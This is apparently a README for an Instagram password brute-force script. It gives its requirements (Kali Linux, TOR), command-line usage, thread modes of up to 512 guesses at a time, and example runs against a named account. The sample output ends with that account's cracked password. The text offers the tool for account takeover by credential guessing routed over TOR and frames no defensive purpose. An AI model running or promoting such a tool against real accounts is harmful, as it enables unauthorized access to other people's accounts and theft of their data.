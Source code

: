 Requirements
Python v3.x.x
Kali Linux 2.0
TOR
Install Dependencies
pip3 install -r requirements.txt
Help
C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Usage
python3 instagram.py <username> <wordlist> -m <mode>
Bots(Threads)
4 bots: 64 passwords at a time
8 bots: 128 passwords at a time
16 bots: 256 passwords at a time
32 bots: 512 passwords at a time
Modes
0: 32 bots
1: 16 bots
2: 8 bots
3: 4 bots
Chill mode
This mode uses only 4 bots, or 64 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
Moderate mode 1
This mode uses 8 bots, or 128 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
Moderate mode 2
This mode uses 16 bots, or 256 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 1
Savage mode
This mode uses 32 bots, or 512 passwords at a time.

C:\Users\Mohamed\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
If you don't specify a mode, then mode is set to 2
Run
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
Stop
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
